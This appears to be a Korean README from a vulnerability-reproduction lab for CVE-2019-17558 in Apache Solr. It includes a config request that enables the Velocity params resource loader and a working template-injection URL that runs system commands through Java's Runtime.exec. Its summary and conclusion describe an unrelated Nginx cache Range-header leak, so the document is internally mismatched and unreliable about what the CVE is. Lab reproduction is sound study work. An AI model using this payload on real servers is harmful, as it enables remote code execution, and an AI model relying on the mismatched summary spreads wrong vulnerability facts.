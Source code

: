 # CVE-2019-17558

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [오훈(@55hnnn)](http://github.com/55hnnn)

<br/>

### 요약

-   Nginx는 리버스 프록시 사이트에서 일부 파일을 캐시함, 특히 정적 파일을 캐시함. 이 캐시의 일부는 파일에 저장되며, 각 캐시 파일에는 "파일 헤더", "HTTP 응답 헤더", "HTTP 응답 본문"이 포함됨.
-   요청에 Range 헤더가 포함되면 Nginx는 지정된 시작 및 종료 위치에 따라 지정된 길이의 내용을 반환함. 두 개의 음수 위치를 구성하면, 예를 들어 (-600, -9223372036854774591), 음수 위치의 데이터를 읽을 수 있음.
-   이 요청이 캐시 파일에 일치하면 캐시 파일 내의 "HTTP 응답 본문" 앞에 있는 "파일 헤더", "HTTP 응답 헤더" 등의 내용을 읽을 수 있음.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`API에 접속하여 solr core의 이름을 확인함.
![](1_check_core.png)
-   `params.resource.loader.enabled`옵션이 활성화 되어있어야 함. `/solr/[core_name]/config` API를 통해 해당 옵션을 확인. 만약, 비활성화 되어있을 경우, 다음 요청을 통해 해당 옵션을 활성화
```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![](2_check_loader.png)
- Velocity Template을 통한 취약점 트리거
```http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 공격자가 Nginx 서버의 캐시 파일에서 예상치 못한 데이터를 읽을 수 있게 만들어, 정보 유출의 위험이 있음. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요함.